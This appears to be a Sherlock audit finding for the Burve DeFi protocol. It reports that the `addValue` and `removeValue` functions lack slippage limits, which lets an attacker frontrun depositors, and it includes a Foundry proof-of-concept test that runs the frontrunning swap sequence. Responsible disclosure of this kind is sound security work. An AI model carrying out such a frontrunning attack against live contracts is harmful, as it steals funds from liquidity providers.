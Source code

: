 Skinny Mocha Boa

High

# Attackers can frontrun `addValue` and `removeValue` to steal tokens.

### Summary

In multi-token closures, when LP providers add value to a closure, they deposit portions of each token in the pool.
However, the `addValue` and `removeValue` functions do not check slippage, so LP providers have no idea how much of each tokens get deposited to the closure, and for this reason, these transactions are prone to frontrunning.

### Root Cause

The [`addValue`](https://github.com/sherlock-audit/2025-04-burve/blob/44cba36e2a0c3cd7b6999459bf7746db92f8cc0a/Burve/src/multi/facets/ValueFacet.sol#L58) and [`removeValue`](https://github.com/sherlock-audit/2025-04-burve/blob/44cba36e2a0c3cd7b6999459bf7746db92f8cc0a/Burve/src/multi/facets/ValueFacet.sol#L176) functions do not take maximum amounts of tokens from users.

### Internal Pre-conditions

None

### External Pre-conditions

None

### Attack Path

- Bob is going to add 1e6 value worth of tokens to the closure through `addValue`.
- Alice front-runs Bob's transaction and swaps other tokens for one specific token to minimize a value of one token.
- As Bob deposits tokens, he deposits pretty huge amount of the degraded token.
- Alice swaps the degraded token for other tokens, earning a profit.

### Impact

- LP providers do not control the amount of tokens they deposit to the closure.
- LP providers can lose a part of their assets.

### PoC

Put the PoC in the `test/facets/Audit.t.sol` file.

```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity ^0.8.27;

import {MultiSetupTest} from "./MultiSetup.u.sol";
import {console2 as console} from "forge-std/console2.sol";
import {ValueFacet} from "../../src/multi/facets/ValueFacet.sol";
import {ValueLib} from "../../src/multi/Value.sol";
import {AssetBookImpl} from "../../src/multi/Asset.sol";
import {MAX_TOKENS} from "../../src/multi/Token.sol";
import {MockERC20} from "../mocks/MockERC20.sol";
import {ERC20} from "openzeppelin-contracts/token/ERC20/ERC20.sol";

contract MultiTokenAuditTest is MultiSetupTest {

    function setUp() public {
        vm.startPrank(owner);

        _newDiamond();
        _newTokens(3);
        _fundAccount(alice);
        _fundAccount(bob);

        vm.startPrank(owner);
        _initializeClosure(0x07, 1e3 * 1e18); // 0, 1, 2
        simplexFacet.setClosureFees(0x07, 1 << 124, 0); // 0.01% fee

        vm.stopPrank();
    }

    function getBalances(
        address who
    ) public view returns (uint256[3] memory balances) {
        for (uint8 i = 0; i < 3; ++i) {
            balances[i] = ERC20(tokens[i]).balanceOf(who);
        }
    }

    function testAuditAddValueFrontRun() public {
        uint256[3] memory initBalances = getBalances(alice);

        // Alice swaps token1 and token2 for token0
        vm.startPrank(alice);
        swapFacet.swap(alice, tokens[1], tokens[0], 5e2 * 1e18, 0, 0x07);
        swapFacet.swap(alice, tokens[2], tokens[0], 6e2 * 1e18, 0, 0x07);
        vm.stopPrank();

        // Bob deposits liquidity
        vm.prank(bob);
        valueFacet.addValue(bob, 0x07, 1e7 * 1e18, 0);

        uint256[3] memory currentBalances = getBalances(alice);

        // Alice swaps back
        vm.startPrank(alice);
        (uint256 inAmt, uint256 outAmt) = swapFacet.swap(alice, tokens[0], tokens[1], -5e2 * 1e18, 0, 0x07);
        swapFacet.swap(alice, tokens[0], tokens[2], int256(currentBalances[0] - initBalances[0] - inAmt), 0, 0x07);
        vm.stopPrank();

        currentBalances = getBalances(alice);

        console.log("T0 Diff", int256(currentBalances[0]) - int256(initBalances[0]));
        console.log("T1 Diff", int256(currentBalances[1]) - int256(initBalances[1]));
        console.log("T2 Diff", int256(currentBalances[2]) - int256(initBalances[2]));

        // Alice gets 3 token2 as profit
        assertGt(currentBalances[2] - initBalances[2], 3 * 1e18);
    }
}

```

### Mitigation

`addValue` and `removeValue` functions should take maximum amounts of tokens allowed from users.
